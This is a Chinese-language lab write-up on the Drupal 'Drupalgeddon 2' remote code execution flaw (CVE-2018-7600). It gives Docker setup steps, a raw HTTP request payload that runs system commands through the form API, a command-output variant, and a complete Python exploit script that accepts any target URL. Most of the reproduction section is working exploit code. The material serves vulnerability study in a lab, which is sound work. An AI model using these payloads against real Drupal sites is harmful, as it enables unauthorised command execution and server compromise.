



# Drupal Drupalgeddon 2 远程代码执行漏洞 CVE-2018-7600

## 漏洞描述

Drupal 是一款用量庞大的CMS，其6/7/8版本的Form API中存在一处远程代码执行漏洞。相关分析如下：

- https://research.checkpoint.com/uncovering-drupalgeddon-2/

## 环境搭建

Vulhub执行如下命令启动drupal 8.5.0的环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/`将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

安装方式参考CVE-2014-3704

## 漏洞复现

向安装完成的drupal发送如下数据包：

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```



参考[a2u/CVE-2018-7600](https://github.com/a2u/CVE-2018-7600/blob/master/exploit.py)，成功写入文件hello.txt：



可以执行命令，将结果输出到1.txt

```
payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo `ls -al` | tee 1.txt'}
```

查看1.txt文件内容，即`ls -al`命令执行结果



## 漏洞POC

```python
#!/usr/bin/env python3
import sys
import requests

print ('################################################################')
print ('# Proof-Of-Concept for CVE-2018-7600')
print ('# by Vitalii Rudnykh')
print ('# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders')
print ('# https://github.com/a2u/CVE-2018-7600')
print ('################################################################')
print ('Provided only for educational or information purposes\n')

target = input('Enter target url (example: https://domain.ltd/): ')

# Add proxy support (eg. BURP to analyze HTTP(s) traffic)
# set verify = False if your proxy certificate is self signed
# remember to set proxies both for http and https
# 
# example:
# proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
# verify = False
proxies = {}
verify = True

url = target + 'user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' 
payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo ";-)" | tee hello.txt'}

r = requests.post(url, proxies=proxies, data=payload, verify=verify)
check = requests.get(target + 'hello.txt', proxies=proxies, verify=verify)
if check.status_code != 200:
  sys.exit("Not exploitable")
print ('\nCheck: '+target+'hello.txt')
```

